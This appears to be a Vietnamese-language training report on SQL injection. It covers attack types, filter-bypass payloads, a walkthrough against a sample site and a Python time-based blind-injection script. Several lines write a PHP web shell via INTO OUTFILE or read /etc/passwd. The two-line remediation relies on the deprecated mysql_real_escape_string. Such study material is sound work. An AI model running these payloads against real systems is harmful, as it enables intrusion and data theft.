







#REPORT
----------------------------------

##SQL Injection

1. **Nguyên nhân**:
 	- App sử dụng input của người dùng mà không thông qua việc làm sạch các kí tự liên quan với ngôn ngữ truy vẫn SQL như ***",',-,...***.
 	- Sử dụng phương pháp cộng chuỗi để ghép input người dùng vào câu lệnh SQL và truyền xuống database.
 	- Tất cả những gì có tương tác với database đều có thể xảy ra SQL Injection.
2. **Phân loại:**
 	* In-band SQL Injection: Đây là loại cổ điển, phổ biến và dễ khai thác nhất, bởi vì output đều rõ ràng và chúng ta có thể nhận biết khá dễ dàng.
 	
		* Error-Based SQLi: Dựa trên các lỗi, exception được xuất ra màn hình khi có các hàm hoặc query chạy sai.
		* Union-Based SQLi: Loại tấn công dựa trên câu lệnh **UNION** với 2 mệnh đề **SELECT**, app sẽ xuất ra data mà atker cần dưới dạng plain-text. Các lệnh hỗ trợ đi kèm thường là ***limit, order by, offset,...***.
 	
 	* Inferential SQL Injection: Hay còn được biết với cái tên Blind SQL Injection. Đúng như cái tên, vì output không được xuất ra hoặc không rõ ràng nên phải dựa vào cách mà app phản ứng đối với các query lạ như ***sleep(), benchmark(),...***
 		* Time-Based SQLi: Dựa vào thời gian delay của app để truy xuất thông tin thông qua các câu điều kiện như ***IF,...*** và các hàm ***sleep(), benchmark()***
 		* Boolean-Based SQLi: Dựa vào "giá trị" ***đúng/sai*** của câu query bằng toán tử ***&&*** và các hàm như ***ascii(), exists(),...***
 	* Một số loại khác: Second order SQL Injection (kết hợp cả 2 loại trên),...
 	* Out of band SQL Injection: Đây là loại ít phổ biến nhất do kho phát hiện vì app không phản ứng hay trả kết quả với các phản ứng lạ. Chính vì vậy, attker sẽ thông qua một kênh khác để khai thác lỗi này bằng DNS hoặc HTTP Requests.

3. **Mở rộng từ SQL Injection:**
 	* Tất nhiên điều gần như chắc chắn có thể làm là truy xuất thông tin của database, tất cả dữ liệu nằm trong database một cách không hợp lệ.
 	* ***Leo quyền***: crack password admin hoặc backup và thay đổi password, ở các tính năng của admin thì security ít nghiêm ngặt hơn và từ đó có thể có những lỗi khác như ***LFI, SSRF, Upload file***...
	* Đọc file nhạy cảm từ server bằng hàm ***load_file(),...***
	* ***Leak to RCE***: thường liên quan tới các vấn đề về phân quyền users trong database, nếu user hiện tại có quyền đọc hoặc ghi vào một folder, endpoint nào đó, sẽ rất có khả năng server sẽ dính phải RCE.
		* ***SELECT ... INTO OUTFILE.***
		* ***XP_CMDSHELL() (MSSQL).***
		* ...
4. ***Các truy vẫn thường dùng:***

	* ***UNION***: Ghép kết quả của 2 bảng và 2 bảng này phải trùng số cột, cú pháp: ***SELECT ... UNION SELECT ...***. Đây là truy vấn dùng rất nhiều trong khai thác SQL Injection, đặc biệt là In-band SQLi. Để union được 2 bảng với nhau phải cần 2 điều kiện, thứ nhất là 2 bảng phải có cùng số cột, thứ 2 là các cột tương ứng phải có cùng kiểu dữ liệu.
	* ***ODER BY, GROUP BY***,...: 2 truy vấn để tìm số cột của câu select trước, hỗ trợ khai thác bằng truy vấn ***UNION***. Hai truy vấn trên sẽ trả về lỗi nếu số cột truyền vào sau nó cao hơn số cột đã select ở phía trước. Khi select, các cột sẽ được đánh số thứ tự từ [1..n], câu truy vấn order by và group by sắp xếp các kết quả trả về theo tên cột hoặc số thứ tự của cột được truyền vào, nếu cột không tồn tại thì trả về lỗi.
	* ***CONCAT(), GROUP_CONCAT()***,...: Hàm có chắc năng cộng các chuỗi kết quả với nhau. Ví dụ câu *SELECT* đầu tiên có dạng như *SELECT username FROM user WHERE ...*, nếu không dùng concat(), thì mỗi truy vấn sẽ chỉ lấy được 1 trường của database. Nếu dùng concat thì sẽ tiết kiệm được nhiều thời gian. Ví dụ: *SELECT username FROM users WHERE id=1 union SELECT CONCAT(phonenumber,email,...) FROM users -- -*
	* ***LIMIT, OFFSET***: Sắp xếp hoặc giới hạn số hàng mà câu truy vấn có thể trả về, vì đôi khi app sẽ chỉ xuất ra màn hình kết quả đầu tiên trong bảng kết quả của chúng.
	* ***CAST(),EXTRACTVALUE()***: Chuyển đổi kiểu dữ liệu giữ các data, hữu dụng trong ***Error-based***.
	* ***HEX(), ASCII(),...***
	* ***LOAD_FILE()***: Đọc nội dung các file chưa thông tin nhạy cảm của server, ex: ***/etc/passwd, /etc/shadow,...***. Ví dụ: ***SELECT LOAD_FILE('/etc/passwd')***.
	* ***INTO OUTFILE***: Ghi kết quả của câu select vào một file nào đó (nếu user hiện tại có quyền ghi). Đây là câu lệnh có thể dẫn tới ***RCE*** (Remote Code Excution). Ví dụ: ***... UNION SELECT "<?php system("$_GET['cmd']"); ?>" INTO OUTFILE /var/www/html/shell.php*** (Trong trường hợp root directory là */var/www/html/*).
	* ***LIKE, BINARY LIKE,...***: Toán tử search **substring**, trả về true nếu **substring** được tìm thấy. Ví dụ: ***SELECT * FROM users WHERE username like "1337%"***. Câu truy vấn trên sẽ trả về tất cả những hàng có ***username*** bắt đầu bằng **"1337"**. Đây là toán tử rất hữu dụng trong khai thác Blind SQL Injection, có thể dùng nó để chạy các giải thuật **Brute-force**.
	* ***SUBSTRING(), SUBSTR(), MID(),...***: Các hàm check tồn tại của chuỗi con, hỗ trợ brute force. Ví dụ: (SUBSTRING(version(),1,5) like "mysql%"), nếu câu trên trả về true, nghĩa là ngôn ngữ truy vấn đang dùng có thể sẽ là mysql.
	* ***xmp..dirtree()***: 1 hàm trong MSSQL, hỗ trợ khai thác out of band sql injection.
	
5. **Bypass:**
Tuy đã có cơ chế để lọc một số input nhưng bên cạnh đó vẫn có cách để bypass chúng, dưới đây là một số cách:
	* URL Encoding:
		* ***?id=1%27+or+1=1+--+-***
	* Muti-Encoding:
		* ***?id=1%2527%2Bor%2B1=1%2B--***. Khi đó %2527 sẽ trở thành %27 = "
	* Blacklist:
		
		* ***?id=1 UniOn sElEct * FrOm users -- -***. Nguyên nhân là do code phân biệt chữ hoa và chữ thường.

		
		
		* Ở đây code đã replace mà không phân biệt hoa thường bằng hàm *str_ireplace()*, payload như sau: ?id=1 UNI**UNION**ON SE**SELECT**LECT * FR**FROM**OM users -- -
	
		* Dựa trên ***Parameter Pollution***:  Một số ứng dụng khi nhận nhiều hơn 1 các tham số trùng tên sẽ sử dụng tham số đâu tiền, một số sử dụng tham số sau cùng, một số lại xử lí tất các tham số đó, có thể thông qua điểm này để bypass blacklist.Ví dụ payload: 
		***?id=1+unio&id=n+selec&id=t+\*+fro&id=m+user+--+-***
		* Sử dụng inline comment của SQL, cú pháp /* comment */. Tùy thuộc vào version của database đang sử dụng mà kĩ thuật này có thành công hay không. Nếu system parse comment thành null byte hoặc kí tự rỗng thì có khả năng thành công. Ví dụ payload: 
			***?id=1+uni/\*\*/on+sele/\*\*/ct+\*+fr/\*\*/om+users+--+-***.
		* Buffer over flow: payload 
			***?id=1+/\* 'A'\*100000 \*/+union+select+\*+from+users+--+-***
		* Ngoài ra, các keyword như ***or*** hoặc ***and*** cũng sẽ bị filter, có thể bypass bằng các kí tự ***||*** và ***&&***.
	
	* SQL comment excution: Từ **MySQL** version *2.23.02* đã hỗ trợ chức năng chạy query trong comment, cú pháp như sau: /\*!32302 query \*/. Ví dụ: ***SELECT+\*+/\*!32302 FROM \*/ users+--+-*** hoặc  ***SELECT+/\*!32302 1/0 \*/+FROM+users+--+-***. Nếu thực hiện được, query trên sẽ trả về lỗi ***divison by 0 error***
	* Khác: Khai thác ở các truy vấn khác như ***limit, order by, offset,...***

6. ***Khai thác SQL Injection ở mệnh đề Order by và Group by:***
	* Tấn công SQL Injection dựa trên truy vấn ***Order By*** và ***Group By***: một số app có tính năng sắp xếp kết quả của query trả về, và người lập trình không filter tham số tham gia việc sắp xếp. Ví dụ câu truy vấn sau:
		
		***SELECT * FROM users WHERE username like ("%+ $username +%") order by 1 + $order***
 		
 		Đối với câu truy vấn trên, nếu biến ***$order*** chưa được filter thì hoàn toàn có thể dính lỗi SQL Injection
 	
 		* Exploit: Đầu tiên, giá trị mong muốn của người lập trình truyền vào biến ***$order*** là ***ASC*** hoặc ***DESC***. Với 2 kiểu sắp xếp khác nhau, nhưng mệnh đề ***order by*** có thể sử dụng nhiều hơn một cột để sắp xếp. Do đó ta có thể tiếp cận lỗi này bằng các kiểu khai thác như ***Time-based***, ***Boolean-based***, thậm chí là ***Union-based********* nếu truy vấn ở trên không phải là ***order by*** mà là ***group by***.
 		
 			* Time-based:
 			Tham số nếu truyền vào bình thường sẽ như sau: ***?username=abc&order=ASC***. Thay vào đó, attker truyền vào tham số ***order*** như sau: 
 			***&order=,(select if((1=1), sleep(5),false))***.
 			
 			Khi đó query trở thành:
 			***SELECT * FROM users WHERE username like ("%abc%") order by 1,(select if((1=1),sleep(5),false))***
 			
 			Nếu app bị time out hoặc delay một thời gian bằng ***5\*<số kết quả trả về\>*** (5 là số giây delay của mỗi kết quả) thì web đã bị dính lỗi SQL Injection. Từ đó, có thể thay điều kiện ***(1=1)*** thành các câu các như ***EXISTS(SELECT ... LIKE ...)*** và dựa vào thời gian response để trính xuất data.
 			* Error-based: Thường ít xuất hiện vì ít có ứng dụng nào cho output là lỗi của query cả(không khả thi):
 			Payload như sau: ***username=abc&order=,(extractvalue(rand(),concat(CHAR(126),version(),CHAR(126))))***
 			Thay ***version()*** thành câu SELECT bất kì.
 	
 	* Ngoài ra, mệnh đề ***limit*** nếu không được filter thì vẫn có thể bị khai thác. Xem thêm ở [bài đăng](https://www.noob.ninja/2019/07/exploiting-tricky-blind-sql-injection.html) này.
 	
 	
7. **Ví dụ một cuộc tấn công SQL Injection:**
	* ***Union***:
	
	 
	
	Test bằng các mệnh đề đúng sai ***?id=4 or 1=1 -- -***. 
	
	
		
	Tất cả các Product đều được trả về và khi payload là ***?id=4 and 1=2 -- -*** thì không thấy xuất kết quả nên có thể khẳng định site đã dính SQL Injection.
		
	Tiếp theo sử dụng order by để xác định số cột của union trước, như đã nói ở trên nếu số cột truyền vào lớn hơn số cột được select phía trước thì sẽ trả về lỗi. Ở đây tìm được số cột được select là 13 bằng payload ***?id=4 order by 13 -- -***.
		
	Sử dụng Union: payload: ?***id=4 union select 1,2,3,4,5,6,7,8,9,10,11,12,13 -- -***. Thấy các số như **2, 4, 5** được xuất ra màn hình nên, thay các số đó trong payload thành các câu select, hoặc các hàm chưa thông tin database như **version(), database(), user(),...**
	
	
		
		?id=4 union select 1,version(),3,database(),user(),6,7,8,9,10,11,12,13 -- -
	
	.
	
	* ***Error-based***: Khi nhập sai cú pháp, ta thấy website xuất ra lỗi của query, từ đó có thể khai thác bằng Error-based:
	Payload: ***?id=4 AND extractvalue(rand(),concat(CHAR(126),version(),CHAR(126)))-- -***. Hàm extractvalue() cố gắng convert biến version() thành kiểu int nhưng không được nên đã in biến đó ra màn hình dưới dạng error message. Thay ***version()*** thành các câu select bất kì,...
	
	
	
	* ***Boolean-based:***
	Thử payload: ***?id=4 or exists(select * from dual where database() binary like "a%") -- -***
	
	 
	Thấy kết quả xuất ra chỉ là product có id = 4, nên tên database hiện tại không bắt đầu bằng kí tự ***a***. 
	
	Khi sử dụng payload:  ***?id=4 or exists(select * from dual where database() binary like "c%") -- -***
	
	
	
	Ta thấy kết quả trả về là tất các ***product*** nên hàm ***exists*** trả về kết quả đúng, từ đó có thể biết được kí tự đầu tiên trong tên database là ***c***. Tiếp tục với các kí tự sau.
	
	* ***Time-based:***
	Thử payload: ***?id=4 and sleep(10)-- -.*** Nhận thấy web delay 10s trước khi trả về kết, quả do đó có thể khai thác theo kiểu Time-based.
	Payload như sau: ***?id=4 and (select sleep(10) from dual where database() binary like 'a%') -- -***. Như đã nói ở trên câu lệnh like sẽ so trùng substring, ***birany*** là option cho phép toán tử ***like*** phân biệt chữ hoa thường. Bằng cách này ta có thể brute force các kí tự của data, ở payload trên, nếu database hiện tại bắt đầu bằng kí tự ***a***. Web sẽ delay 10s trước khi trả về kết quả. Tiếp tục tương tự với các kí tự sau. Ví dụ về 1 exploit script:
	
```python
import requests
import sys

url = "http://coda.cc/product/product.php?id="

chars = "abcdefghijklmnopqrstuvwxyz0123456789_@."

database_name = ""

payload= "4 and if(exists(select * from dual where database() like '{}%'),sleep(3),false) -- -".format(database_name)

temp = "abc"
while temp != database_name:
    temp = database_name
    for i in chars:
        payload = "4 and if(exists(select * from dual where database() like '{}%'),sleep(3),false) -- -".format(database_name + i)
        res = requests.get(url+payload)
        print ("[*] Try to payload: "+ payload)
        if res.elapsed.total_seconds() > 3:
            database_name = database_name + i
            payload= "4 and if(exists(select * from dual where database() like '{}%'),sleep(3),0) -- -".format(database_name)
            print(database_name)
            break
print ("Database name is: "+database_name)
``` 


viii. **Khắc phục:**
	
+ PHP cung cấp một hàm rất hữu dụng để filter input người dùng khỏi SQL Injection là ***mysql_real_escape_string()***.
	
+ Hạn chế sử dụng phương pháp cộng chuỗi, đặc biệt là với input người dùng.